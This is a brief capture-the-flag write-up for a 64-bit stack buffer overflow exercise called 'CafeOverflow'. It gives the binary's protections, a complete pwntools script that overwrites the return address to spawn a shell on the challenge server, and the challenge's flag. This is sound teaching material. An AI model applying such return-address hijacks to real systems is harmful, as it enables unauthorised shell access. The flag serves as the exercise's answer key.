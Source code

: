 # CafeOverflow

Simple buffer overflow exercise in 64 bit architecture.

Protection techniques:
``` l
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Since there are no stack canaries, we could control the rip address by overflowing the buffer to the return address.

Payload: 
```python=
#!/usr/bin/env python3
from pwn import *

context(arch='amd64', terminal=['tmux', 'neww'])
r = remote('hw00.zoolab.org', 65534)
#r = process('./CafeOverflow')

payload = cyclic(24)
payload += p64(0x401195)  # push /bin/sh; call system in func1

r.sendline(payload)
r.interactive()
```

Flag: 
`flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}`
